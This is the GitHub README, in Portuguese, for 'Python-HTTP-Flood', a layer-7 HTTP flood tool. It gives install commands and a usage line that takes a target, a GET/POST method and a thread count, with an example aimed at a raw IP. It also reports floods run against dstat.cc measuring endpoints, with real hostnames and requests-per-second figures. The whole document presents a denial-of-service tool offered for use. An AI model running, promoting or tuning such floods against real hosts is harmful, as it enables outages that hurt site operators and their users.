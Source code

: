 # Python-HTTP-Flood

Uma simples ferramenta de HttpFlood

## Install
```sh
git clone https://github.com/e43b/Python-HTTP-Flood/
cd Python-HTTP-Flood
pip install -r requirements.txt  
```

## Usage 
```sh
python main.py <target> <GET/POST> <threads>
example: python main.py http://51.159.30.249 POST 1500
```

Pc usado para rodar o script é uma máqiquina virtual com 1 nucleo e 2gb de ram

testes foram feitos no site `https://dstat.cc/` na layer 7 o site `http://142.171.195.145/HIT` na categoria `L7 Non Protected` e o site `https://nodec.mediathektv.com` na cátegoria `L7 Non Protected SSL`

## Testes na pática `POST`
https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142post.png)
`python main.py http://142.171.195.145/HIT POST 500`
### Requisições por segundo
máxima: 1500
media: 1000

https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecpost.png)
`python main.py https://nodec.mediathektv.com POST 700`
### Requisições por segundo
máxima: 2800
media: 1500

## Testes na pática `GET`
https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142get.png)
`python main.py http://142.171.195.145/HIT GET 500`
### Requisições por segundo
máxima: 3000
media: 1000

https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecget.png)
`python main.py https://nodec.mediathektv.com GET 700`
### Requisições por segundo
máxima: 2200
media: 1500
